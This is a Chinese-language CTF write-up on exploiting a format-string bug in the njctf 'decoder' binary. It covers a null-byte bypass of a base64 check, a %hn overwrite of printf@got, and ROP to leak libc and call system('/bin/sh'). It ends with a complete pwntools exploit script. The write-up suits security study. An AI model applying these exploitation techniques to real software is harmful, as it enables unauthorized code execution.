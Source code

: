 ```yaml
---
title: 格式化字符串漏洞利用实战之 njctf-decoder
authorId: hac425
tags:
  - format string
  - exploit
categories:
  - ctf
date: 2017-12-17 09:51:00
---
```

### 前言
格式化字符串漏洞也是一种比较常见的漏洞利用技术。`ctf` 中也经常出现。

本文以 `njctf` 线下赛的一道题为例进行实战。

题目链接：https://gitee.com/hac425/blog_data/blob/master/decoder


### 正文

程序的流程如下

![paste image](http://oy9h5q2k4.bkt.clouddn.com/15134756777207wotnxfu.png?imageslim)

部分函数已经进行了标注，看程序打印出来的提示信息就知道这个是一个 `base64` 解码的程序，然后可以通过 `猜测 + 验证` 的方式，找到那个 用于 `base64` 解码的函数。

这个程序的漏洞在于将 `base64` 解码后的字符串直接传入 `snprintf`, 作为 `format` 进行处理， 格式化漏洞。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/15134762004787vfa2tjp.png?imageslim)

通过格式化串可以 **任意写/任意读** ， 不过这里一次格式化之后就会往下一种走到程序末尾。所以这里我采用 修改 `printf@got`的值 为 `rop gadgets`,然后进行 `rop`.



还需要注意前面还有`check` ,不满足 `base64` 的格式规范的字符串是触发不了漏洞的。不过我们可以绕过这些 `check`。


![paste image](http://oy9h5q2k4.bkt.clouddn.com/1513477638571o34ns4rx.png?imageslim)


程序程序获取输入时使用的是 `read` 函数，然而后面的 `base64_check` 和 `base64_decode` 用到的输入的长度都是使用 `strlen` 获取的。`strlen` 是通过搜索 `\x00` 来确定字符串的长度， 而通过 `read` 我们可以输入 `\x00`， 所以我们在正常 `base64` 后面加上 `\x00` 然后布置 `rop chain` 即可。 
还有一个小技巧，触发漏洞时 , `printf` 函数还没有被调用，所以 `got` 表中保存的值还是没有经过 `重绑定` 的值。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1513476750593syzw31hb.png?imageslim)


为了绕过栈里面的 `base64` 字符串 ，我们需要一个 `add esp` 的 `gadgets` 可以使用 `ROPgadget`.

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1513476881379j7em7v3w.png?imageslim)


找到一个 `0x08048b31`, 和 `printf@got` 的值只有 `2`个字节的差距，所以使用 `%hn` 可以写两个字节，写的数据为 `0x8b31`,地址为 `0x0804B010`
```
%35633c%7$hn
```
然后后面调用 `printf` 时就会进入 `rop chain`, 首先通过 `rop` 调用 `puts` 打印 `read@got` 泄露 `libc`

![paste image](http://oy9h5q2k4.bkt.clouddn.com/15134770899859p7k76ct.png?imageslim)

然后再次触发漏洞，用刚刚 `leak`的数据，布置 `rop` 调用 `system('/bin/sh')`

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1513477156821brdloq8e.png?imageslim)

### 最后

对于 `strlen` 如果我们可以输入 `\x00`，则它的返回值我们是可以控制的。

通过部分修改 `got`，执行 `rop`，要注意后面紧跟着调用的函数。


最后的 `exp`

```
from pwn import *
context(os='linux', arch='amd64', log_level='debug')


p = process("./decoder")

gdb.attach(p, '''
b *0x08048C29
# b *0x08048C4E  
b *0x08048b31
# b *0x8048c5f  
c

	''')

pause()


printf_got = 0x0804B010
read_got = 0x0804B00C

puts_plt = 0x08048520

main_addr = 0x08048B37



s = '%35633c%7$hn'
payload = base64.b64encode(s)
payload += "\x00"  # pass check
payload += "A" * 3 # padding
payload += p32(printf_got) # addr to write
# payload += cyclic(40) # find ret eip offset
payload += cyclic(28)   # padding for eip

payload += p32(puts_plt)
payload += p32(main_addr) # ret addr, ret to main, again
payload += p32(0x0804B00C)  # addr to leak

p.sendline(payload)

p.recvuntil("THIS IS A SIMPLE BASE64 DECODER\n")

read_addr = u32(p.recv(4))
libc_addr = read_addr - 0xd5af0
system_addr = libc_addr + 0x3ada0
sh_addr = libc_addr + 1423787

log.info("system: " + hex(system_addr))
log.info("/bin/sh: " + hex(sh_addr))



s = '%35633c%7$hn'
payload = base64.b64encode(s)
payload += "\x00"  # pass check
payload += "A" * 3 # padding
payload += p32(printf_got) # addr to write
# payload += cyclic(40) # find ret eip offset
payload += cyclic(28)   # padding for eip

payload += p32(system_addr)
payload += p32(main_addr) # ret addr, ret to main, again
payload += p32(sh_addr)  # addr to leak

p.sendline(payload)




p.interactive()
```